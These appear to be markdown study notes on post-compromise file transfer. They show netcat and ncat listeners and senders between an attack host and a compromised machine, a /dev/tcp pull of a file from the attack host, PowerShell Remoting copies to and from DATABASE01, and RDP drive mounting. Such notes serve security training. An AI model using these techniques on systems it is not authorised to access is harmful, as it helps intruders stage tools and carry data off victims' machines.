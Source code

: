 
- `Netcat`, `Ncat` and `RDP` and `PowerShell` can also be used to transfer file.

- ## Netcat

	- Often (abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.
	- Can also be used for file transfer. operation.

- ## File Transfer with Netcat and Ncat

	- Netcat can be used to initiate the connection, which is helpful if a firewall prevents access to the target.
	
	- #### Netcat - Compromised Machine - Listening on port 8000:
	
		-  `nc -l -p 8000 > <file_name>`
		
		- `-l` is the listing option
		- `-p` for the port specification
		- `>` for redirection of stdout
	
	- ### Ncat - Compromised Machine - Listening  on port 8000:
	
		- `ncat -l -p 8000 --recv-only > <file_name>`
		
		- `--recv-only`  is used to close connection once file transfer is finished.
	
	- ### Netcat - Attack Host - Sending File to Compromised machine:

		- `nc -q 0 <Ip> <port> < <file_name>`
		
		- `-q 0` option is specified that tell Netcat close the connection once it finishes.
	
	- ### Ncat - Attack Host - Sending File to Compromised machine:
	
		- `ncat --send-only <IP> <port> < <file_name>`
		
		- `--send-only` ,when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.
	
	- ### Attack Host - Sending Files as input to Netcat:
	
		- Connect to a specific port instead of listening on main server  to perform the file transfer.
		- This method is useful in scenarios where there's a firewall blocking inbound connection
		
		- `nc -l -p <port> -q 0 < <file_name>`
	
	- ### Compromised Machine Connect to Netcat to Receive the File:
		
		- `nc <IP> <port> > <file_name>`
	
	- ### Attack Host - Sending File as Input to Ncat:
	
		- `ncat -l -p <port> --send-only < <file_name>`
	
	- ### Compromised Machine Connect to Ncat to Receive the File
	
		- `ncat <IP> <Port> --recv-only > <file_name>`
	
	- ### Netcat -  Sending File as Input to Netcat
	
		- `nc -l -p <port> -q 0 < <file_name>`
	
	- ### Ncat - Sending File as Input to Ncat
		
		- `ncat -l -p <port> --send-only < <file_name>`

- #### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

	- `cat < /dev/tcp/<IP>/<port> > <file_name>`

# PowerShell Session File Transfer

- PowerShell Remoting aka WinRM to perform file transfer operations.
- PowerShell Remoting allows to execute scripts or command on a remote computer using PowerShell sessions.
- PowerShell remoting creates both an HTTP and an HTTPS listener.
- The listeners run on default ports ==***TCP/5985 for HTTP and TCP/5986 for HTTPS.***==


- To create a PowerShell Remoting session on a remote computer, need administrative access, be a member of the Remote Management Users group Or have a explicit permissions for PowerShell Remoting.

- ## From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01:

	- Use `Test-NetConnection` to confirm the connectivity to WinRM
	
		- PowerShell:
		
			- `Test-NetConnection -ComputerName DATABASE01 -Port 5985`

		- #### Create a PowerShell Remoting Session to DATABASE01
		
			- `$Session = New-PSSession -ComputerName DATABASE01` 
		
		- #### Copy samplefile.txt from the Localhost to the DATABASE01 Session
		
			- `Copy-Item -Path <file_path\sample.txt> -ToSession $Session -Destination <destination_path>`
		
		- ### Copy DATABASE.txt from DATABASE01 Session to the localhost
		
			- `Copy-Item -Path "<file_path\DATABASE.txt>" -Destination C:\ -FromSession $Session`
		

# RDP {Remote Desktop Protocol}

- ### Mounting a Linux Folder Using rdesktop:
	
	-  `rdesktop <IP> -d alice\CONSTOSO -u <username> -p <password> -r disk:linux='<file_path_in_linux>'`

- ### Mounting a Linux folder Using xfreerdp:

	- `xfreerdp /v:<IP> /d:CONSTOSO\alice /u:<username> /p:'<password>' /drive:linux, <file_path_in_linux>`

- ### RDP can also use to mount linux file :

	- Select local Resource 
	- Configure Local devices and resources
		- select Drives and configure it.

[[File Transfer]]